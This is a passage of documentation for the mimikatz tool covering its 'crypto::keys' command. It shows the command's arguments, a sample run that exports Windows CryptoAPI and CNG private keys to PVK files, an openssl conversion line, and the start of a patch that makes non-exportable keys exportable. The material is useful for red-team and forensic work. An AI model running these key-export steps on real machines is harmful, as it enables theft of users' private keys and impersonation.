## keys
This command lists keys, by provider. It can export keys too.

**Arguments:**
* `/provider` - _optional_ - the legacy `CryptoAPI` provider (default: `MS_ENHANCED_PROV`)
* `/providertype` - _optional_ - the legacy `CryptoAPI` provider type (default: `PROV_RSA_FULL`)
* `/cngprovider` - _optional_ - the `CNG` provider (default: `Microsoft Software Key Storage Provider`)
* `/export` - _optional_ - export all key to `PVK` files
* `/silent` - _optional_ - if user interaction is required, then abort

_full list of providers details [`crypto::providers`](#providers)_

```
mimikatz # crypto::keys /export
 * Store         : 'user'
 * Provider      : 'MS_ENHANCED_PROV' ('Microsoft Enhanced Cryptographic Provider v1.0')
 * Provider type : 'PROV_RSA_FULL' (1)
 * CNG Provider  : 'Microsoft Software Key Storage Provider'

CryptoAPI keys :

 0. myCapiKey
    223311d3b5d990f48c65070b883b9ef1_33b8db1c-b3d2-4912-b24e-fc0742b704c1
        Type           : AT_KEYEXCHANGE (0x00000001)
        Exportable key : YES
        Key size       : 2048
        Private export : OK - 'user_capi_0_myCapiKey.pvk'

 1. OC_KeyContainer_Lync_user@domain.local
    49e3a9228aa9a33357545413fba35d07_33b8db1c-b3d2-4912-b24e-fc0742b704c1
        Type           : AT_SIGNATURE (0x00000002)
        Exportable key : NO
        Key size       : 2048
        Private export : KO - ERROR kuhl_m_crypto_exportKeyToFile ; Export / CreateFile (0x8009000b)

CNG keys :

 0. mykey-d535a6d8-70f5-496f-8c85-17c8fd26f379
    98a436bd6f4caa9b24379112b577f688_33b8db1c-b3d2-4912-b24e-fc0742b704c1
        Exportable key : NO
        Key size       : 2048
        Private export : KO - ERROR kuhl_m_crypto_exportKeyToFile ; Export / CreateFile (0x80090029)
````

**Remarks:**
* If needed, you can convert `PVK` files with: `openssl rsa -inform pvk -in key.pvk -outform pem -out key.pem`

## capi
This patch modify a ``CryptoAPI`` function, in the ``mimikatz`` process, in order to make unexportable keys, exportable (no specifig right other than access to the private key is needed)
